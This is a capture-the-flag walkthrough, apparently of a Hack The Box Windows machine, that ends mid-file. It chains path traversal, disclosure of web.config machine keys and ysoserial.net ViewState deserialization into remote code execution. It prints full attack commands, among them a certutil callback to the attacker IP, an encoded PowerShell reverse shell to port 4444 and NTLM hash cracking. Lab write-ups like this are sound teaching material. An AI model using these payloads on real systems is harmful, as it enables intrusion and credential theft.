

*Nmap scan*:

```shell
$ cat nmap_allports.txt        
# Nmap 7.94SVN scan initiated Sun Feb 18 10:20:05 2024 as: nmap -p- -v -o nmap_allports.txt 10.10.11.251
Nmap scan report for 10.10.11.251
Host is up (0.041s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http
```

```shell
$ cat nmap_servicesversions.txt 
# Nmap 7.94SVN scan initiated Sun Feb 18 10:23:28 2024 as: nmap -p80, -sC -sV -v -o nmap_servicesversions.txt 10.10.11.251
Nmap scan report for 10.10.11.251
Host is up (0.037s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: pov.htb
|_http-favicon: Unknown favicon MD5: E9B5E66DEBD9405ED864CAC17E2A888E
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Only port 80 seems to be available. The webapp on port 80 does a redirect to "pov.htb" domain; it is added to the hosts file.


From the fuzzing of VHOSTs, the "dev" subdomain was identified.

```shell
$ wfuzz -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.pov.htb" --hh 12330 pov.htb
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://pov.htb/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                     
=====================================================================

000000019:   302        1 L      10 W       152 Ch      "dev"                                                                                                                                                                       
[...]
```


From the posts on the page, "sfitz" user is identified. Also, there is a reference to "dev.pov.htb:8080" in the footer of the page.


Among the few features present is the ability to download the developer's CV.



From the metadata analysis of the PDF, the author Turbo is identified.

```shell
$ exiftool -a -u cv.pdf                                                                                      
ExifTool Version Number         : 12.67
File Name                       : cv.pdf
Directory                       : .
File Size                       : 148 kB
File Modification Date/Time     : 2024:02:18 10:37:21+01:00
File Access Date/Time           : 2024:02:18 10:37:22+01:00
File Inode Change Date/Time     : 2024:02:18 10:38:12+01:00
File Permissions                : -r--------
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.7
Linearized                      : No
Page Count                      : 1
Language                        : es
Tagged PDF                      : Yes
XMP Toolkit                     : 3.1-701
Producer                        : Microsoft® Word para Microsoft 365
Creator                         : Turbo
Creator Tool                    : Microsoft® Word para Microsoft 365
Create Date                     : 2023:09:15 12:47:15-06:00
Modify Date                     : 2023:09:15 12:47:15-06:00
Document ID                     : uuid:3046DD6C-A619-4073-9589-BE6776F405F2
Instance ID                     : uuid:3046DD6C-A619-4073-9589-BE6776F405F2
Author                          : Turbo
Creator                         : Microsoft® Word para Microsoft 365
Create Date                     : 2023:09:15 12:47:15-06:00
Modify Date                     : 2023:09:15 12:47:15-06:00
Producer                        : Microsoft® Word para Microsoft 365
```

It comes back to play with the HTTP request that allows the CV to be downloaded. The "file" parameter of the request seems interesting. The webapp contains the "contact.aspx" page. This file is used as the parameter value.


The webapp contains the "contact.aspx" page. This file is used as the parameter value. The API allows downloading the source file of the "contact.aspx" page. This is really interesting.

The pattern of the HTTP request for download is saved in a file. Fuff is used to fuzz other files in the webserver.

```http
POST /portfolio/ HTTP/1.1
Host: dev.pov.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 365
Origin: http://dev.pov.htb
DNT: 1
Connection: close
Referer: http://dev.pov.htb/portfolio/
Upgrade-Insecure-Requests: 1

__EVENTTARGET=download&__EVENTARGUMENT=&__VIEWSTATE=ivIirUxRl69hY39eBfXLkjsblwv%2BP2Q8DFF9SrLjYlrZFoDsfcpZEWfDmBRpOB3A2jlFe%2F20GWwlbtLfnJlxDOgQeJ0%3D&__VIEWSTATEGENERATOR=8E0F0FA3&__EVENTVALIDATION=qkGoxe3hIz5L096cWONJ%2BPm2eVXtvG0fGyXcxML8ceXG%2F3fN2tOe1KKgjxMVOU0GwjyxI%2FjqrGcYLb9sNEOTTMS3CoqWV1KasAQSlNgGS55Xo2jB8ocNtZmvwY5k%2FustsR238Q%3D%3D&file=FUFF
```

```shell
$ ffuf -request files/file.txt -request-proto http -mode clusterbomb -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-files-lowercase.txt:FUFF -mc 200
[...]
________________________________________________

default.aspx            [Status: 200, Size: 20948, Words: 8235, Lines: 420, Duration: 56ms]
contact.aspx            [Status: 200, Size: 4307, Words: 1421, Lines: 102, Duration: 41ms]
cv.pdf                  [Status: 200, Size: 148225, Words: 3850, Lines: 989, Duration: 87ms]
index.aspx.cs           [Status: 200, Size: 749, Words: 128, Lines: 26, Duration: 60ms]
:: Progress: [16244/16244] :: Job [1/1] :: 167 req/sec :: Duration: [0:00:49] :: Errors: 0 ::
```

From fuzzing, files are identified. The file "index.aspx.cs" looks interesting. This is its contents.

```asp.net
using System;
using System.Collections.Generic;
using System.Web;
using System.Web.UI;
using System.Web.UI.WebControls;
using System.Text.RegularExpressions;
using System.Text;
using System.IO;
using System.Net;

public partial class index : System.Web.UI.Page {
    protected void Page_Load(object sender, EventArgs e) {

    }

    protected void Download(object sender, EventArgs e) {

        var filePath = file.Value;
        filePath = Regex.Replace(filePath, "../", "");
        Response.ContentType = "application/octet-stream";
        Response.AppendHeader("Content-Disposition","attachment; filename=" + filePath);
        Response.TransmitFile(filePath);
        Response.End();
    }
}
```

In the "Download" function, which is responsible for downloading the CV, there appears to be a regex that strips directory traversal type payloads. The file inclusion vulnerability is evident in that only relative paths containing "directory traversal" payloads with "forward slash" are striped. Payloads with backslashes are not sanitized. Let's try to view the contents of the hosts file.


BINGO. Through the Responder setup, it was also possible to capture Net NTLM hashe of the user running the application, i.e., sfitz.


With rockyou the hash could not be cracked.

```shell
$ hashcat -m 5600 netntlm_sfitz.txt /usr/share/wordlists/rockyou.txt
[...]
Session..........: hashcat                                
Status...........: Exhausted
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: SFITZ::POV:3d05929ca154d4b2:60cbb93ebbdf1be4a08fd8b...000000
Time.Started.....: Sun Feb 18 11:26:29 2024 (22 secs)
Time.Estimated...: Sun Feb 18 11:26:51 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   692.4 kH/s (0.56ms) @ Accel:256 Loops:1 Thr:1 Vec:4
Recovered........: 0/1 (0.00%) Digests (total), 0/1 (0.00%) Digests (new)
Progress.........: 14344385/14344385 (100.00%)
Rejected.........: 0/14344385 (0.00%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: $HEX[206b72697374656e616e6e65] -> $HEX[042a0337c2a156616d6f732103]
Hardware.Mon.#1..: Util: 41%

Started: Sun Feb 18 11:26:04 2024
Stopped: Sun Feb 18 11:26:52 2024
```

You continue to play with the API. The contents of the "web.config" file are detected.


```text
<configuration>
  <system.web>
    <customErrors mode="On" defaultRedirect="default.aspx" />
    <httpRuntime targetFramework="4.5" />
    <machineKey decryption="AES" decryptionKey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" validation="SHA1" validationKey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" />
  </system.web>
    <system.webServer>
        <httpErrors>
            <remove statusCode="403" subStatusCode="-1" />
            <error statusCode="403" prefixLanguageFilePath="" path="http://dev.pov.htb:8080/portfolio" responseMode="Redirect" />
        </httpErrors>
        <httpRedirect enabled="true" destination="http://dev.pov.htb/portfolio" exactDestination="false" childOnly="true" />
    </system.webServer>
</configuration>
```

As you can see from the image above, in the "web.config" file there is a "machineKey" tag with a "decryptionKey" and a "validationKey". The topic is deepened:
- [https://www.claranet.com/us/blog/2023-04-17-path-traversal-remote-code-execution](https://www.claranet.com/us/blog/2023-04-17-path-traversal-remote-code-execution)
- [https://blog.liquidsec.net/2021/06/01/asp-net-cryptography-for-pentesters/](https://blog.liquidsec.net/2021/06/01/asp-net-cryptography-for-pentesters/)

From the articles above, it is explained that the exposure of the "machineKey" can lead to Remote Code Execution via the "`__VIEWSTATE`" parameter. How can this be possible? Quoting verbatim:
- "*The purpose of the viewstate is to add some “state” to what is fundamentally a stateless protocol*"
- "*The viewstate itself is a base64-encoded serialized object. This means anytime it is used, it is being deserialized by the server*"
- "*To prevent tampering with the viewstate it is signed with a MAC (message authentication code) to protect it’s integrity, and can also be encrypted to protect the confidentiality its contents*"

What does the attack consist of? In generating a malicious VIEWSTATE using [ysoserial.net](https://github.com/pwntester/ysoserial.net). The "Releases" section contains pre-compiled executables. Let's try it out. The command to be executed is as follows:

```shell
ysoserial.exe -p ViewState  -g TextFormattingRunProperties -c "<OS COMMAND>"  --decryptionalg="AES" --generator=<__VIEWSTATEGENERATOR VALUE> decryptionkey="<decryptionKey VALUE>"  --validationalg="SHA1" --validationkey="<validationKey VALUE>"
```

To confirm the vulnerability, a value is generated that makes an HTTP request.

```shell
PS C:\...\yoserial\Release> .\ysoserial.exe -p ViewState  -g TextFormattingRunProperties -c "certutil -urlcache -f http://10.10.14.9/xxxxxxxxxxxxxxxx"  --decryptionalg="AES" --generator=8E0F0FA3 decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43"  --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468"
%2FwEyxQcAAQAAAP%2F%2F%2F%2F8BAAAAAAAAAAwCAAAAXk1pY3Jvc29mdC5Qb3dlclNoZWxsLkVkaXRvciwgVmVyc2lvbj0zLjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPTMxYmYzODU2YWQzNjRlMzUFAQAAAEJNaWNyb3NvZnQuVmlzdWFsU3R1ZGlvLlRleHQuRm9ybWF0dGluZy5UZXh0Rm9ybWF0dGluZ1J1blByb3BlcnRpZXMBAAAAD0ZvcmVncm91bmRCcnVzaAECAAAABgMAAADnBTw%2FeG1sIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9InV0Zi0xNiI%2FPg0KPE9iamVjdERhdGFQcm92aWRlciBNZXRob2ROYW1lPSJTdGFydCIgSXNJbml0aWFsTG9hZEVuYWJsZWQ9IkZhbHNlIiB4bWxucz0iaHR0cDovL3NjaGVtYXMubWljcm9zb2Z0LmNvbS93aW5meC8yMDA2L3hhbWwvcHJlc2VudGF0aW9uIiB4bWxuczpzZD0iY2xyLW5hbWVzcGFjZTpTeXN0ZW0uRGlhZ25vc3RpY3M7YXNzZW1ibHk9U3lzdGVtIiB4bWxuczp4PSJodHRwOi8vc2NoZW1hcy5taWNyb3NvZnQuY29tL3dpbmZ4LzIwMDYveGFtbCI%2BDQogIDxPYmplY3REYXRhUHJvdmlkZXIuT2JqZWN0SW5zdGFuY2U%2BDQogICAgPHNkOlByb2Nlc3M%2BDQogICAgICA8c2Q6UHJvY2Vzcy5TdGFydEluZm8%2BDQogICAgICAgIDxzZDpQcm9jZXNzU3RhcnRJbmZvIEFyZ3VtZW50cz0iL2MgY2VydHV0aWwgLXVybGNhY2hlIC1mIGh0dHA6Ly8xMC4xMC4xNC45L3h4eHh4eHh4eHh4eHh4eHgiIFN0YW5kYXJkRXJyb3JFbmNvZGluZz0ie3g6TnVsbH0iIFN0YW5kYXJkT3V0cHV0RW5jb2Rpbmc9Int4Ok51bGx9IiBVc2VyTmFtZT0iIiBQYXNzd29yZD0ie3g6TnVsbH0iIERvbWFpbj0iIiBMb2FkVXNlclByb2ZpbGU9IkZhbHNlIiBGaWxlTmFtZT0iY21kIiAvPg0KICAgICAgPC9zZDpQcm9jZXNzLlN0YXJ0SW5mbz4NCiAgICA8L3NkOlByb2Nlc3M%2BDQogIDwvT2JqZWN0RGF0YVByb3ZpZGVyLk9iamVjdEluc3RhbmNlPg0KPC9PYmplY3REYXRhUHJvdmlkZXI%2BCypIuYYRaURGM1YsjQbUEOUpm96G
```

On the /portofolio/contact.aspx page, a POST request is made in which the VIEWSTATE is passed. You make the request by replacing again by replacing the value of the "`__VIEWSTATE`" parameter with the one generated by the executable. 

It did not work.

After many, many hours of payload tuning (also thanks to [https://soroush.me/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/](https://soroush.me/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/)), I succeeded in a working payload.

```shell
PS C:\...\yoserial\Release> .\ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "certutil -urlcache -f http://10.10.14.9/xxx" --path="/portfolio/contact.aspx" --apppath="/" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468"
1INgxXN2Z9CPNQpNVGyxgoPeUMXTqwAsLLrYz%2BdixZR0yIwEdZcqEg67zm9d%2FNE4cRl0S9gHF0j2o%2Fnu9nhr56z%2FoRcMcLgSBIExtVSPIcnXLejQ5KwfCRRQ107bQycionjKUrX1A1RYsADWX2dQJN11QZyyZWCXxQul1nb2NSCHW0sAwiGF2vDStqoctL30%2Bnm4P3eLh%2BgjbYsmbyYvE01cF%2F7ZuuTvaLofqxx73FNm20obERO5AZra0cPtEmoJxdUaINvJ1EBHjoxM7KlsenusVa74QUg6BGLZHAQv58SXA2rplyqHZF3Za%2FGPsPOdNjPMN19zeDJOuDtW6x2uy3P6rsxsPqDYQ8WFhw1BBLR5n1rcG3%2BhWDRYvOIZ8BmheAsvBVX6PlsobC%2BRL4puL1Nxk8LjSUk5kQnlSc4gVcoBf879k5Y3dhEfVwEs0icTcoSlI1spz3Wbeuofy2PVUUbDGAWy5R6ePLIeTbzYfBSulopYFkeoS%2FRCQxWIwzmtOJ5dT9fZccc1Fb%2Bo8sm8mBk0W8zCCLkAW8fEPFBdJocCfx%2F%2FB1OVH4K%2FwVq3jjDexMWHqF4ABcNl8ZR6dXrXhlaM1LTGcEHkzrjnyxzEZtynws9dUlST50IQJatLPWe80IxBU30C6wEBOqSr7TX2WDDIvWQKTD7PsTAykEx2p4i6MlrhyuodbJEADuQ5rV2MTtPjs7n5nA%2BXCbS0XCOlZMN%2F2wt6iNeiq0%2BCExs3HuuaKASCr5CHLPFjp1geqfNqsi%2FXHCU3eU29LKF7hQzMiT%2FMEUuMRBAuSTmYwfDXS8o305rNQROZNe%2FEyo4QX7z8nYQkZxBcAKZ4aRkFHOOManphv3yvINVRIfBYaEduZsZ8w4ao7KFwYIO28NziNCMu%2BZYy1Bu3sIcJNWsRu8TE2M7Gfvzgh5SqtFQaXNXrQNNYSgqJcbmbaF5ciS2sNIZqRLZGHTZRf0y0WUG0ECxN62mtf0x6ulGTdBXPsC90GSdp7xhT9h4oiVTPNL4IVfeSOfAMydUM8huIAaauJkcFlLNBJN1QZpdaA7ucEKa6aQMUO6KJGPWhJHlzFonMlOa0%2BrASki3EooGbrXfdOlv89GphPOr%2FtFP29eIEqDIv692k7jaFn8ye1dA%2FgcCU2umA32RpYrwxYvrDt%2FzBuJXvhqgtiU5J0wUUyvCHgqj0LAFlTrvsDRChyFHv2p9%2BweJWOPTFvEuMtFSnrrOoDEgizrnCy290mwLkSnNurik4y9muZQV1k8xRA05YFcqTfiEFJF%2F0LUscuI8LzlBmUrNk7h4KPNNSjVcIJmyp1oQTTlXLPZn0
```


```shell
$ ifconfig tun0 | grep inet && python3 -m http.server 80
        inet 10.10.14.9  netmask 255.255.254.0  destination 10.10.14.9
        inet6 fe80::74a7:efa8:9cc4:3f80  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::1007  prefixlen 64  scopeid 0x0<global>
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.251 - - [20/Feb/2024 17:47:55] code 404, message File not found
10.10.11.251 - - [20/Feb/2024 17:47:55] "GET /xxx HTTP/1.1" 404 -
10.10.11.251 - - [20/Feb/2024 17:47:55] code 404, message File not found
10.10.11.251 - - [20/Feb/2024 17:47:55] "GET /xxx HTTP/1.1" 404 -
```

Confirmed RCE. It's time to get a shell. A Powershell payload is generated to obtain a reverse shell.

```shell
$ python3 mkpsrevshell.py 10.10.14.9 4444
powershell -e JABjAG[...]bABvAHMAZQAoACkA
```

Then you generate the serialized payload with the Powershell payload.

```shell
PS C:\Users\pgros\Downloads\yoserial\Release> .\ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AOQAiACwANAA0ADQANAApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA" --path="/portfolio/contact.aspx" --apppath="/" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468"
v5vUW1QZdi9MOWhbeSf2MuTZqE3VdlWhKu3tGFpyz8qRUdbvFOyC4Lebn%2BdwPsyyOLHO%2BUep7qJo4syf%2FfcUjIfrR6rVFj6pTDMBF1JwGEoraY5f5HzpHLenil1z2waEGSJiZ4ZVddnN8qAhaE%2ByKl1GGYiaeiV%2BfxURb4SF%2FCi5DTOgfyucpJUFcGKm3PKFe1EEvr9JWb158PZ281EEO3ZqKzP1LLj5l%2BdtWKrd5tS%2B1SmV8uz2mfzCsHfDMKYYKUK0FWzhvdNuxvJ2t%2BSs94%2Bos1rzJ30yeoL7L63grvwApqSH1keOqnVMp8uLOhufzl0FfU74qZtZxQS3FEkWnk4svSWoIJnEab83XNYrouD%2F1710dmFZX7piJ1hHKcZgutwQQHue7aVusNCtl1npphp08dvmZ5GEOC%2FYyLxiYD0zOeuqUBDlLVL5rOqw2tjHQ4cvUXiz1hk%2B3eOZg8uoWQ6FoBtUnwQhQ%2BGzj%2F75eGa%2FZFQ3bcRRA0w9jpqG%2BXpQBrMxrwgdK9dSxkUxSs12i8V9o569ZNsEQ%2FQSGxGpkFy4XusX0BNIRVmBAjFMhSbk9VGDMcwi94hmcnOMzl9REmgerK0tcLGwueBJ2DqKXK9wZ%2B63rlYrjyv2CkYZua4TnlCeGLakkpVh8Ze7YAb%2FrHvhVWR%2BwGFTWvAREwtntJ553hUZ6Op58ar3uVDL6Qiw%2F4%2Bx4i9rfMA%2FLC651yuXeHi5%2BDn4AIF5wkWgOkf3IdtS3hBIyZiejOwVyaphJ7UKWV2MQchzl%2BadGjZfwOU0X814Ng7IZZ2WxVZ%2Bin2bkhkbynVOeORjfd2CADj6kNywNhT6gt8vVjAV78eVB7lPZS3LUI%2Bch6IyOzKaa%2BMYB8qCwX99x2CmYhpoRPTyeD%2FO0Yc0Jro4%2F7%2BHi8S1ol%2BLWXHKifHWRDwCa5lfhmw4Guxf4MoALHZNXN4Tyno6aYuhjTqn27cFB11tUKqX1c1kT%2BZevgMY0%2FpXYxQ%2F7CKou%2BLY%2B1n28GNzmIXO6KrKKYp%2FRDD7TYr3SNb2U%2FnuKI1xHzFTYMFB7UaBm0xB%2FwQNZPYH254oR%2FCxWcDZwvuH6e6XmyuY2zDhi%2BES1hIrWA6rF%2FgqmfKBtPp2My3JFnk1ojZPP94V93KIz7HVZYkS650jPn4eWUiEkdSllg04Mx8bGsiKw%2FjE3BYbcwnYCn7rbOqMq9pQw3FEq22b7HwcrPd1vKlR2vW45YbnK412N0NH6UgDdBF4UbGejznDBHbfAsp%2F7J%2B7F%2BXe78lCHeBW0Lj6GUVn8Fs%2BKCbmHUeYT5yV3JS9SWkaZGLhQmNgvYy2iM4FHymUCNEElxfVjw8ANf38R4V8GyRXd4VD5jZMgz6tZ7VvAEFHmOMD%2F%2BKc4Wl4UxQJGSMJBHAf5nxHiU0nXjzy9dzVCYyal2YmNJv5xyKOQc5UKRAZuyh9LnbH1cUvXQ2zhPXV%2BNZYLdNNzIIQu5YLvEcEQcd%2BPlYZVki7oa3%2B5dix5dwJS8dREEtWiyMHGYet67BMMHvp%2FNLNdnj5Oena7e7uQwhCKU8GI7KQCpefzNX8gCMVmHu7Os3KH1%2BizrGgK7GRnFUOQcUGLq6sm8l4TO%2FbOUx2dfGeXKWnKWmhx%2BKNPcNIhxA5XE5sAJYfV3MxW9SVu%2FhviuVUdhbBK24sZQm8XL2HhCth%2F68xvp7RboMvSAwsVBJzzIuTveYyH7Oijvh4sPlFDl6a%2BftNj2QxP77kcvtWCrmxGhDJn8LiJJlIAtuwxx2DZj15qdP2GsaQZElvcN%2FH6gutZ%2FCwtXkoqkXhey%2Fz5euxjzX2yx7R%2BtO8Y7w1yOcqldELq2j8XaE28iEk71kJ6ggqxXJexlnPbAHQuT2iUsjT1lYega1826DazFOJuqTy9z1ePtAfxazSfVnUE9eoC4DF2V36ffonrazL%2F6S11%2BzMriLZcVtIfJ3uDucRqpeS5OoPMSlI2XOovyBA3A0nXtvC%2FjPS9VBLhwqUqc4bfIKLrpBXGm5TE1ty8kfkL3sernAcF0bEp8jZ10AulfwNNwIfCdFTevMlgNrujqVvAMBzk0OheHowhqoKOQp9Jtqu2Pa92JG2UIf1Btw2yC%2BOs%2BM0qqodBy6d5jUTGEQ%2BMfpjPI6vR9qbB%2BQqN7rrdMfD4VEzTv4gETNT%2B2GkHUDMiNMR5mNjFvdC6A%2BnG%2BYOGR7e71ZRAyqcRjNZhVR3Xf8qV4pAXMdPsrt0Y8ryoiHrWawbQLuDtYH7oKop1bYnJITo0UXKN3Tx8xxkakdImjyoaAi0FxBFOiHF44SGdgbs2rU8Ubx44bJ91hGJ9QFZqc5iUibFpbaJqMH6hCRLCylwnorPJMFzjUCrEVw3xUbZxghtIFiVz2VKaamgenbUvxheyv6G3bjLWmEO4j9dO81buEMb9Slt8hhIAbFNEbzDVnjFoCiLg%2FI9MBeQtRQFOlDdUwQmVXaeqr%2BZt9hxUiiumFMh32zPAb50vQ%2B%2BzPF2AjXY6EvNFP6XXztgunhvVHQWR4qL24E9Ac699EeTUR1M0FXXBLPoAfQvcMvl6rIYuwRWYcOccHq05eyolsWoW9v4nWHsUxevl2PfbrAhByyexMx5NNuTdVIuMCI6iZGZ0yeC6UrXpy5tMKjbQhdto0%2FCN9P7N502zQc19DPIbZkiyWA8VoalbN3At%2FqdyJw5Kj6QYtR0h3WDslsstWW7AsfeK9i14fP0O6dBdS84UTqMpTXC5d14E4Ya9Q5GWVh2UMeX%2FX%2FhEKcX8MzIAJf1mXtfkizA61%2F7HbLr4rrzTdR3DGFMEuwZ9PGUTp0PaWpA5MSYNe8BxmtqpyNqk%2BAf2%2BV9wOg3ioN43Sa3HHoCcih9MjvOvfdq4qYDGF9ENLQ7cbPYCo4OGXDC%2BkmIp6NjHoly9NQe0zU0FAo8IJ9DEiOC8Lod%2FPSp7jtbCLrxZdC1iEK8mVX80tQa4XpWNHtNTvKZQT3PAxfhMJB6iRgc00KfxIZZItZbn48kcEeA%2BXMtplFoWpwzSZavW4bWzwyWYBCsiuuC8Im9QmGVf2ZE05t6mylfuRvsPGvKYygaYc%2BoNEuA%2BTU6f7Jf46XXMw%3D%3D
```


I am IN. A shell with "sfitz" users was obtained. There is no "user.txt" file for this user. "alaading" is found.

```shell
PS C:\> net user

User accounts for \\POV

-------------------------------------------------------------------------------
Administrator            alaading                 DefaultAccount           
Guest                    sfitz                    WDAGUtilityAccount       
The command completed successfully.

PS C:\> net user alaading
User name                    alaading
Full Name                    
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            11/6/2023 9:59:23 AM
Password expires             Never
Password changeable          11/6/2023 9:59:23 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   12/25/2023 3:56:21 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use*Users                
Global Group memberships     *None                 
The command completed successfully.
```

A very interesting file was found in the "Users" folder. In the file "connection.xml" there seems to be the credentials of the "alaading" user.

```shell
PS C:\Users> Get-ChildItem -Path . -Include *.* -File -Recurse -ErrorAction SilentlyContinue


    Directory: C:\Users\sfitz\Documents


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       12/25/2023   2:26 PM           1838 connection.xml                                                        


    Directory: C:\Users\sfitz\Favorites


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       10/26/2023   5:02 PM            208 Bing.url                                                              


    Directory: C:\Users\sfitz\Links


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       10/26/2023   5:02 PM            494 Desktop.lnk                                                           
-a----       10/26/2023   5:02 PM            935 Downloads.lnk                                                         


PS C:\Users> cd C:\Users\sfitz\Documents
PS C:\Users\sfitz\Documents> type connection.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">alaading</S>
